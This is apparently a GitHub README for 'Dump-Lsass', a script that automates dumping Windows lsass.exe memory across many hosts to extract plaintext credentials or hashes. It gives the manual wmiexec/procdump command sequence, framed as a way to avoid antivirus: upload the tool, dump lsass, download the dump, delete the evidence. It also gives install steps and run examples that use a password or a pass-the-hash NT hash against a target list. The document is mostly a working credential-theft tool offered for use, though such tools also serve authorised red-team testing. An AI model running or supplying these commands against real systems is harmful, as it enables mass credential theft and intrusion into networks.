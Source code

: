 # Dump-Lsass
Automates the manual process of using wmiexec and procdump to dump Lsass and plaintext creds or hashes across a large number of systems. After dumping lsass, you should have an lsass.dmp file and a plaintext file with mimikatz (pypykatz) output for each host in the same directory 

To dump lsass.exe process memory without triggering antivirus, I would normally use Impacket wmiexec.py and procdump64.exe as follows:

```
wmiexec.py domain/user@target
put procdump64.exe
procdump64.exe -accepteula -64 -ma lsass.exe lsass.dmp
get lsass.dmp
del lsass.dmp
del procdump64.exe
exit
```
That's a very manual and time-consuming process when multiplied by many target hosts.

Prerequisites: Procdump64.exe must be in the same directory as the script, impacket at path /opt/impacket, smbclient, pypykatz.


To install prereqs:

Download procdump64.exe to the same directory as the script.

git clone https://github.com/SecureAuthCorp/impacket.git /opt/impacket

cd /opt/impacket && pip install -r requirements.txt && python setup.py install

apt install -y smbclient

pip3 install pypykatz

Run examples:
```
python3 dumpLsass.py -d CONTOSO -u administrator -p Passw0rd\! -f </path/to/file with target IP addresses or hostnames.txt>
python3 dumpLsass.py -d CONTOSO -u administrator -H <NT Hash> -f </path/to/file with target IP addresses or hostnames.txt>
```

If pypykatz is unable to dump creds from the dump files, your target is most likely running a recent Windows build which pypykatz and mimikatz no longer works.
